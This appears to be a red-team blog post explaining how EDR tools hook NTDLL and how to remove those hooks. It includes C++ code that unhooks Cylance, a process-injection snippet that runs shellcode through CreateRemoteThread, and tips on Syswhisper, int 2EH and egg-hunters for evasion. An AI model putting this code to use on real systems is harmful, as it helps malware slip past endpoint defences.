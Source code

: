 # How Does AV Know?
Have you ever wondered how AV knows what that the application you're trying to run is malicious when it doesn't have a known signature?

# Before we begin
It's the first post on the new website, and we finally can include Markdown code blocks! No more screenshots of code! 
Blogger has served its purpose well, but it's finally time to move on to more adaptable hosting options. 
With that out of the way, the first post on the new site is going to be talking about a very common EDR evasion techniques and how to spot it.
This is something that has been discussed a lot before and probably won't be new to many, but even in 2022 it's still overlooked by EDR vendors, so it's worth going over.

## What is NTDLL?
In the simplest form, it exports the Windows Native API. 
Since it would be incredibly insecure to allow user mode applications direct access to manipulate the kernel, Windows instead allows you to do so through the Native API which is then mapped to Syscalls.
These Syscalls then are mapped via the system service descriptor table (SSDT) to the kernel functions memory address.
Things like WriteProcessMemory or CreateRemoteThread all go through here and have their own NT API equivalent - NtWriteVirtualMemory and NtCreateThreadEx respectively.
Then, once they have found their API equivalent call, the memory location that the loaded copy of NTDLL has is referenced.
And yes! You can completely avoid having to use these exported functions by just using the Syscalls instead, i.e. Syswhispering.
This comes with its own challenges though when manually implemented as these Syscall numbers reference different memory addresses in the system service descriptor table with each update.
So if you want to avoid NTDLL and use Syscalls, use Syswhisper - it cuts out the headaches and figures out the correct memory address for you.

## How does AV hook NTDLL?
As indicated above, NTDLL is used for a bunch of internal actions so, for the EDR, setting interrupt points to examine what kind of API requests are being made is critical.
Your typical EDR will modify the loaded version to allow it to send off suspicious function calls, such as below with CreateRemoteThread.
![/images/mdsec-edr-hook-example.png](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/)

In this screenshot provided by MDSec, Cylance has implemented a jump point for this function call so that it can inspect what exactly is being performed before passing it back to the original process.
EDR will typically do this for every function that can be abused. But each EDR is built differently so while Cylance might have this jmp here, perhaps Crowdstrike does not. Just something to keep in mind.


## Unhooking for fun and profit
We know what NTDLL is and how it's used and we also know how EDR puts jump points into it in order to examine suspicious calls. 
The next step after this is how can we defeat this process? 

```cpp
void removeCylanceHook(const char* dll, const char* apiName, char code) {
    DWORD old, newOld;
    void* procAddress = GetProcAddress(LoadLibraryA(dll), apiName);
    printf("[*] Updating memory protection of %s!%s\n", dll, apiName);
    VirtualProtect(procAddress, 10, PAGE_EXECUTE_READWRITE, &old);
    printf("[*] Unhooking Cylance\n");
    memcpy(procAddress, "\x4c\x8b\xd1\xb8", 4);
    *((char*)procAddress + 4) = code;
    VirtualProtect(procAddress, 10, old, &newOld);
} 
```
The above snippet is taken from MDSec [here](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/).
The key part to highlight is you can see there is a new value being copied to a memory location.
Here they are overwriting this process address with the original bytes pointing to the kernel functions memory address.
Every memory address exported from the Native API in fact will start with these bytes. 
After implementing this, when the application continues execution, it will no longer have a jump instruction to Cylance's analysis.

```cpp
printf("[*] Opened target process %d\n", processID);
printf("[*] Allocating memory in target process with VirtualAllocEx\n");
void *alloc = VirtualAllocEx(proc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == (void*)0) {
    printf("[!] Error: Could not allocate memory in target process\n");
    return 1;
}
printf("[*] Allocated %d bytes at memory address %p\n", sizeof(buf), alloc);
printf("[*] Attempting to write into victim process using WriteProcessMemory\n");
if (WriteProcessMemory(proc, alloc, buf, sizeof(buf), NULL) == 0) {
    printf("[!] Error: Could not write to target process memory\n");
    return 1;
}
printf("[*] WriteProcessMemory successful\n");

// Remove the NTDLL.DLL hook added by userland DLL
removeCylanceHook("ntdll.dll", "ZwCreateThreadEx", 0xBB);
printf("[*] Attempting to spawn shellcode using CreateRemoteThread\n");
HANDLE createRemote = CreateRemoteThread(proc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
printf("[*] Success :D\n");
```
When this is run, before getting to the CreateRemoteThread function, the application calls the aforementioned removeCylanceHook function with the API name for ZwCreateThreadEx.
The Zw prefix here is important as this ensures that the kernel mode variant for the function is overwritten to point away from the injected EDR jump, whereas specifying Nt would not have done.
So now when our application hits the CreateRemoteThread call, it asks the loaded copy of NTDLL to pass on the request to the SSDT that now has the hook for Cylance removed and functions normally.

## Pros & Cons
So why go through all this work when Syswhisper makes it far simpler?
Well, as [Captmeelo found](https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html), EDR could be looking for the ```syscall``` instruction in the binary. 
A simple bypass though in this case is to replace ```syscall``` in the asm file of Syswhisper with ```int 2EH``` which is a legacy instruction for referencing kernel mode. 
*However* this **also** has issues. ```int 2EH``` is trivial to hunt for so now we're entering the territory of adding an [egg-hunter](https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/) to the code in order to find and replace items in memory at run time.
We'd replace ```syscall``` with a random string in the Syswhispers asm file and then at run time implement the egg-hunter to change our previously random string to ```syscall```.
This definitely provides a high level of evasion, but you have to weigh the cost in time versus the advantage gained.

##***References***
> https://www.codeproject.com/Articles/1191465/The-Quest-for-the-SSDTs
> 
> https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/
> 
> https://www.geoffchappell.com/studies/windows/win32/ntdll/api/index.htm
> 
> https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/
> 
> https://www.ired.team/offensive-security/defense-evasion/bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis
> 
> https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html
> 
> https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/
> 
> https://rioasmara.com/2021/06/20/25-bytes-of-every-function-in-ntdll/